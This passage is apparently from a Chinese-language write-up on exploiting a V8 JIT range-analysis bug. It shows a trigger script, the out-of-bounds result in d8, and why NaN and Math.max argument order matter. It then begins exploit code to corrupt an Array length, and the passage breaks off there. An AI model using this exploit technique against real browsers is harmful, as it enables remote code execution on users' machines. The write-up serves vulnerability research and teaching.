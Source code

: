 ```
%OptimizeFunctionOnNextCall(opt);
print(opt(5));
%SystemBreak();
print(opt(5));
```

运行后发现成功溢出

```
root@ubuntu:~/Desktop/v8/out.gn/x64.bug# ./d8 p.js --allow-natives-syntax
undefined
-8.864952837205469e-7
```

### <a class="reference-link" name="%E7%96%91%E9%9A%BE%E9%97%AE%E9%A2%98"></a>疑难问题

在构造过程中,`var x = Math.max(i,1);`和`x = Math.max(x,-2);`语句中的参数，位置不能调换，否则利用失败。<br>
这是因为`max`函数最终是会被转换为`Float64LessThan`函数，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014313a74ce69645a6.png)

而对于一个`NaN`，任何的比较都是false，因此在这个情况下，`max`运算的真实结果将会是第一个参数

```
NaN == NaN
false
NaN &lt; 1
false
NaN &gt; 1
false
```

而我们的目的就是要让`NaN`参与真实值的计算，因此，不能调换参数的位置。<br>
能否使用`var x = i &lt; 1 ? 1 : i`来代替`max`函数？答案是不行。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010e30c9f64a344b51.png)

这将导致`var x = i &lt; 1 ? 1 : i`这个`Phi`节点与`i`的估测一致，同为`Range(-INF,INF)`，因为从程序的流程分析来看，显然`i &lt; 1`是恒不成立的，因为刚刚循环退出的条件就是`i &gt;= 1`，因此，`var x = i &lt; 1 ? 1 : i`就相当于`var x = i`，在后面，编译器直接评估它与i的情况一样，同为`Range(-inf,inf)`，由此不能达到我们的利用目的。同理，`var x = i &gt; 1 ? i : 1;`也不可行，它将使得i为`NaN`时，x的值为1。

### <a class="reference-link" name="exp%E7%BC%96%E5%86%99"></a>exp编写

控制好对象布局，利用JIT的oob，覆写后方`Array`的length，从而构造一个自由溢出的`OOB Array`，然后后续就是简单的利用了。

```
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function i2f64(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getFloat64(0,true);
`}`

function u64f(value) `{`
   dv.setFloat64(0,value,true);
```